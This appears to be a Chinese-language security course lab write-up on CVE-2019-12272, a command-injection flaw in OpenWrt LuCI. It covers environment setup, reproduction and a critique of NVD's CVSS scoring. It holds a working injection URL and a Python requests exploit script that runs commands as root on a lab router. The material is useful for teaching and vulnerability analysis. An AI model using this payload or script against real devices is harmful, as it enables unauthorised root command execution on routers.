







## 漏洞简介

关于该漏洞的简介，直接引用 [中国国家信息安全漏洞库 CNNVD-201905-962](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201905-962) 的漏洞简介：

> OpenWrt LuCI是一款用于OpenWrt（Linux发行版）的图形化配置界面。

> OpenWrt LuCI 0.10及之前版本中的admin/status/realtime/bandwidth_status和admin/status/realtime/wireless_status端点存在命令注入漏洞。该漏洞源于外部输入数据构造可执行命令过程中，网络系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞执行非法命令。

## 环境搭建

参考 [第一章实验 OpenWrt on VirtualBox](../chap0x01/exp.md#openwrt-on-virtualbox) 的方法，下载安装存在该漏洞的 `OpenWrt` [镜像版本](https://archive.openwrt.org/chaos_calmer/15.05.1/x86/64/openwrt-15.05.1-x86-64-combined-ext4.img.gz)。

## 漏洞复现

先使用管理员账号登录 LuCI ，再使用浏览器访问 `http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞，再访问 [http://192.168.56.3/cmd.txt](http://192.168.56.3/cmd.txt) 获取上一步命令执行的结果。

## 漏洞利用



通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 `curl 命令` ，然后通过第三方网站 [将 curl 命令转换为 Python requests 代码](https://curl.trillworks.com/) ，再稍加改动添加继续访问 `/cmd.txt` 并打印服务器响应，得到示例如下：

```python
import requests

cookies = {
    'sysauth': 'cbb84ab82b19f7b24f7c169ac53236d5',
}

headers = {
    'Proxy-Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36',
    'DNT': '1',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
}

response = requests.get('http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3Ecmd.txt)', headers=headers, cookies=cookies, verify=False)

# added by human
if response.status_code == 200:
    response = requests.get('http://192.168.56.3/cmd.txt')
    print(response.text)
else:
    print("exp failed")
```

以上只是「抛砖引玉」，介绍一种快速将 Web 应用手工漏洞利用步骤变成「自动化脚本」的例子。如果需要更完善的漏洞利用效果，可以自行对「机器生成的代码」进行二次开发。


## 漏洞分析和修复

关于该漏洞的更详细的漏洞原理分析和修复方法可以查阅 [CVE-2019-12272 OpenWrt图形化管理界面LuCI命令注入分析](https://hachp1.github.io/posts/Web%E5%AE%89%E5%85%A8/20190710-lucirce.html) 这篇文章，此处不再赘述。

## 关于该漏洞的 CVSS 评分探讨

先附上美国国家信息安全漏洞库对该漏洞的评分情况截图如下：

[](https://nvd.nist.gov/vuln/detail/CVE-2019-12272)

在上述漏洞复现过程中我们已经验证过：该漏洞的有效利用前提是需要获得 `LuCI` 的「访问权限」。

在 `OpenWrt` 的默认配置里，`LuCI` 使用的是系统的 `root` 用户口令进行身份验证。当然如下图所示，可以通过 `LuCI` 菜单的 `System->Administration` 便捷的关闭 `root` 用户直接通过「口令验证」方式远程 SSH 到路由器上。



NVD 官方给出的漏洞评分「出人意料」的在 2 个版本的 CVSS 评分标准里均认为该漏洞的利用无需「身份认证」（CVSS 2.0）或「获得必要授权」（CVSS 3.0），这是该漏洞的评分过程「质疑点之一」。

其次，关于漏洞可能造成的危害影响，NVD 给出的 CVSS 2.0 和 3.0 标准的 `CIA` 影响评价居然不是一致的：

* CVSS 2.0 版本的评分里，漏洞危害被认为是「部分（`Partial`）」影响 `CIA` 三要素；
* CVSS 3.0 版本的评分里，漏洞危害被认为是「严重（`High`）」影响 `CIA` 三要素；

还是根据实际的漏洞复现和漏洞分析可知：`LuCI` 的宿主进程 `uhttpd` 属主权限是 `root` ，因此对于影响到该进程的「代码执行」漏洞自然是以 `root` 用户身份执行的，所以漏洞危害评价为「严重」影响 `CIA` 三要素是「客观准确」的，对应的，这就是该漏洞的 CVSS 2.0 评分过程「质疑点之二」。

综合以上质疑点分别使用 CVSS 2.0 和 3.0 标准修正该漏洞的评分后得到：

* CVSS 2.0 9.0
* CVSS 3.0 8.8 

对应 [漏洞危害级别](https://nvd.nist.gov/vuln-metrics/cvss) 均为：高危（High）。需要注意的是，经过上述评分修正，按照 CVSS 3.0 的漏洞评级标准，该漏洞不再是「最高等级：紧急（Critical）」（对应漏洞基础评分：9.0-10.0）
。对于 CVSS 2.0 评分标准来说，由于漏洞评价最高等级只有「高危（High）」（对应漏洞基础评分：7.0-10.0），所以并没有改变漏洞危害性程度评级。

除了漏洞评分质疑，我们还有注意到 NVD 的漏洞详情里，该漏洞的 `Exploitability Score` 在 CVSS 3.0 和 CVSS 2.0 里的评分相差巨大：`3.9 VS. 10` ，但这和两者的计算公式发生了变化有关系。这 2 个看似悬殊巨大的「漏洞可利用性」评分已经分别对应各自标准里的「最高可利用性」评价了。

### 附 CVSS 在线计算器计算结果

[](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2019-12272&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

[](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

[](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?name=CVE-2019-12272&vector=(AV:N/AC:L/Au:N/C:P/I:P/A:P))

[](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:L/Au:S/C:C/I:C/A:C))

